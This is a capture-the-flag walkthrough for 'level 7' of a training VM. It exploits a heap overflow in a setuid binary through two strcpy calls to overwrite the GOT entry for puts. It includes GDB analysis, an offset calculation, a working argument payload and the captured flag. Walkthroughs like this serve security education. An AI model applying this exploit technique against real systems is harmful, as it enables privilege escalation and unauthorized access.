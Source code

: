 # Level 7 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level7@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level8 users 5138 Mar  6  2016 level7
	```

3. **Test the binary**

	```bash
	./level7
	```

	Output

	```
	Segmentation fault (core dumped)
	```

4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level7@<vm-ip>:/home/user/level7/level7 .
	```

5. **Analyze with GDB**

	```bash
	gdb level7
	(gdb) p m
	```

	Output:

	```
	$1 = {<text variable, no debug info>} 0x80484f4 <m>
	```

	**Main function disassembly** shows:

	* Multiple `malloc(8)` calls creating small heap chunks.
	* Two structures each containing:

		* An integer
		* A pointer to another allocation
	* `strcpy()` is called twice:

		1. First on the pointer inside the first structure.
		2. Second on the pointer inside the second structure.
	* Finally, `puts()` is called — through the **GOT entry** at `0x8049928`.

	This means we can **overwrite the GOT entry for `puts()`** to point to our target function `m()`.

6. **Addresses of interest**

	```bash
	(gdb) x/i 0x8048400
	```

	Output:

	```
	0x8048400 <puts@plt>:  jmp *0x8049928
	```

	So:

	* GOT entry for `puts`: `0x8049928`
	* Address of `m()`: `0x080484f4`

7. **Calculate overflow offset**

	Memory layout for the first structure:

	* `int` (4 bytes)
	* `pointer` (4 bytes) → points to second allocation
	* `malloc(8)` block (8 bytes) containing target pointer

	We want to overwrite the pointer inside the first structure so it points to the GOT entry of `puts`.

	Offset calculation:

	```
	24 bytes total - 4 bytes (for the pointer we overwrite) = 20 bytes
	```

8. **Build and execute exploit**

	We pass two arguments:

	* First: fills buffer, overwrites pointer with GOT address
	* Second: new function pointer (address of `m()`)

	```bash
	./level7 $(printf 'A%.0s' {1..20}; printf '\x28\x99\x04\x08') $(printf '\xf4\x84\x04\x08')
	```

	Output:

	```
	5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
	 - 1755121534
	```
